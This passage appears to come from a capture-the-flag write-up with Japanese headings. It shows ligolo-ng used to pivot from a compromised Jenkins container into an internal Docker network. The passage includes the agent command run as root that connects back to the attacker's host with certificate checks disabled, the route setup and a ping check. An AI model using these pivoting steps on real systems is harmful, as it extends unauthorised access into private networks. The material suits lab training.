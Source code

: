 ```bash
ligolo-ng » interface_create --name ligolo0
INFO[0219] Creating a new ligolo0 interface...          
INFO[0219] Interface created!                           
ligolo-ng » INFO[1174] Agent joined.                                 id=0242ac120003 name=root@5ac6c7d6fb8e remote="10.129.234.169:59468"
ligolo-ng » 
ligolo-ng » session
? Specify a session : 1 - root@5ac6c7d6fb8e - 10.129.234.169:59468 - 0242ac120003
[Agent : root@5ac6c7d6fb8e] » tunnel_start --tun ligolo0
INFO[1192] Starting tunnel to root@5ac6c7d6fb8e (0242ac120003) 
[Agent : root@5ac6c7d6fb8e] » ifconfig
┌────────────────────────────────────┐
│ Interface 0                        │
├──────────────┬─────────────────────┤
│ Name         │ lo                  │
│ Hardware MAC │                     │
│ MTU          │ 65536               │
│ Flags        │ up|loopback|running │
│ IPv4 Address │ 127.0.0.1/8         │
└──────────────┴─────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 1                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ eth0                           │
│ Hardware MAC │ 02:42:ac:12:00:03              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 172.18.0.3/16                  │
└──────────────┴────────────────────────────────┘
[Agent : root@5ac6c7d6fb8e] »  


```

agentも起動させる
```sh
root@5ac6c7d6fb8e:/var/jenkins_home/workspace/build_dev_main# ./agent -connect 10.10.14.62:11601 -ignore-cert
<in# ./agent -connect 10.10.14.62:11601 -ignore-cert          
time="2025-09-04T05:25:21Z" level=warning msg="warning, certificate validation disabled"
time="2025-09-04T05:25:21Z" level=info msg="Connection established" addr="10.10.14.62:11601"

```

```bash
sudo ip route add 172.18.0.0/16 dev ligolo0
```

疎通確認
```bash
└─$ ping -c 1 172.18.0.3 
PING 172.18.0.3 (172.18.0.3) 56(84) bytes of data.
64 bytes from 172.18.0.3: icmp_seq=1 ttl=64 time=200 ms

--- 172.18.0.3 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 200.201/200.201/200.201/0.000 ms

```
